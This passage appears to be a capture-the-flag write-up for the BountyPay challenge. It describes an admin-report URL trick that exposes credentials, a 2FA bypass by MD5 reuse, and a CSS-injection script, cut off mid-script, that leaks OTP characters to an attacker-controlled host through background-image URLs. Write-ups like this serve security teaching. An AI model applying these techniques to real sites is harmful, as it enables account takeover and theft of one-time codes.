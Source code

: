 I tried many things like template=1,2 or template=1&template=2 and so on.
I remembered that you can turn query parameters into arrays like so "template[]=", so i tried "template[]=1,2" didn't work.
Then i tried "template[]=login&template[]=ticket", it worked! i couldnt believe.
The last puzzle piece was prepopulating the username input field with our desired name which was "sandra.allison".
Luckily adding the query parameter "username=sandra.allison" did just that.
Exploit chain complete.
After a successful dry run i base64 encoded the path, appended it to the report request
```
/admin/report?url=Lz90ZW1wbGF0ZVtdPWxvZ2luJnVzZXJuYW1lPXNhbmRyYS5hbGxpc29uJnRlbXBsYXRlW109dGlja2V0JnRpY2tldF9pZD0zNTgyI3RhYjQ=
```
and send it off.


A short wait later i refreshed the page and was greeted with a new tab in my menu called admin.

{:refdef: style="text-align: center;"}
![marten mickos credentials]({{ '/public/marten1.png' | relative_url }}){: .imgCenter}
{: refdef}

Another set of credentials, the only other active once besides Brian's which we already knew.

Logging in with the credentials on app.bountypay.h1ctf.com yet again showed us the 2fa prompt.
Remembering the MD5 encoded 10 char value from last time i wondered if we could just reuse it, since we didnt have a valid code for marten.
It works, the server just checks if the 10 char value == the MD5 hash of it.
Inside Martens account we again have the Load Transactions feature, but this time with a single entry for 05/2020.
 So close to our goal of paying out the bounties!
Hitting pay we are redirected to the payment page with yet another 2fa step, but this time our MD5 trick doesnt help.
We have 2 minutes to obtain a valid OTP code to send the payment.
Looking at the request of the original page load i noticed it sending a url to a .css file in the post parameters.
"uni_2fa_style.css"
Is this actually CSS for the 2fa app?
Could this be a case of CSS injection?
I changed the URL to one i control with simple css file containing an image url to a server i control.
Repeating the request, waiting a second, we got a hit!

Time to find out what element our potential code is in.
i quickly found an input element with a name starting with "c"
so i tried input[name^='code'] and got another hit.
Now i decided to write a quick python script to automatically generate the css for me to speed things up.
It found that there are 7 input fields with names code_1 - code_7.

This was the code i ended up with

```python

import sys

keyspace = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789/*-+\{\}[]\!\\\"£$%^&*()_="

css1 = """
input[name^='code_1'][value^='%s'] {
    background-image: url('http://myurl/1%s');
}
"""
css2 = """
input[name^='code_2'][value^='%s'] {
    background-image: url('http://myurl/2%s');
```